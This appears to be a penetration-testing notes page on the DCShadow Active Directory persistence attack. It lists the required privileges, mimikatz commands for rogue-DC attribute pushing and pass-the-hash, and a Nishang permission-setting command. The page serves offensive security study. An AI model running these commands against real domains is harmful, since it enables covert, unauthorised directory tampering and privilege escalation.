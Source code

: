 # AD - Forest Persistence - DCShadow

## Description

* DCShadow registers temporarily a new DC in the target domain and uses it to "push" attributes likes SIDHisotry, SPN etc. on a specific object. Without leaving change logs for modified object
* The new DC is registered by modifying the Configuration container, SPN of an existing computer object where the attackers runs the attack from and couple of RPC services
* Because the attribute are changed from a "DC", there are no dictory change logs on the actual DC for the target object.&#x20;
* What exactly was changed using DCShadow would not be visible, other Logs etc. of course will be generated

### Requirement

* Be default DA privs are required to use DCSHadow
* The attacker's machine must be part fo the root domain => If you have a Forest - you need to be DA on the forest
* Two mimikatz instances
*   DCShadow with minimal permissions by modifying the ACLS of:

    * Domain Object\
      DS-InstallReplica (Add-Remove Replica in Domain)\
      DS-Replication-Manage-Topology (Manage Replication Technology)\
      DS-Replication-Sychronize (Replication Synchronization)
    * The Sites object (and its children) in the Configuraiton container\
      CreateChild and DeleteChild
    * The object of the computer which is registered as a DC\
      WriteProperty (Not Write)
    * The target object\
      WriteProperty (Not Write)

    \==> Use _Set-DCShadowPermissions from Nishang_ for setting the permissions

### Tool

**Process**\
One mimikatz instance to start RPC server with SYSTEM privs and specific attributes set:\
!+\
!processtoken\
token::whoami\
lsadump::dcshadow /object:targetUsername /attrubte:Description /value="New Value of Description"\
&#x20;  this will set a new description for the user\
PowerView: Get-NetUser targetUsername\


Second mimikatz instance with enough privs (DA or otherwise like minimal permissions) to push the values:\
Start mimikatz.exe because Invoke-Mimikatz does not show proper output for dcshadow\
privilege::debug\
sekurlsa:pth /user:Administrator /domain:dom.local /ntlm:hash /impersonate\
lsadump::dcshadow /push\
token::whoami

**Using Nishang to set minimal Permissions to target object / Use DCShadow as user currentuser to modify username1 object from machine attacker-machine-hostname**

{% code overflow="wrap" %}
```
Set-DCShadowPermissions -FakeDC attacker-machine-hostname -samaccountname username1 -username currentuser -verbose 
==> now only 1 Mimikatz sessions is requried because username1 can be used and only do lsadump::dcshadow /push
```
{% endcode %}
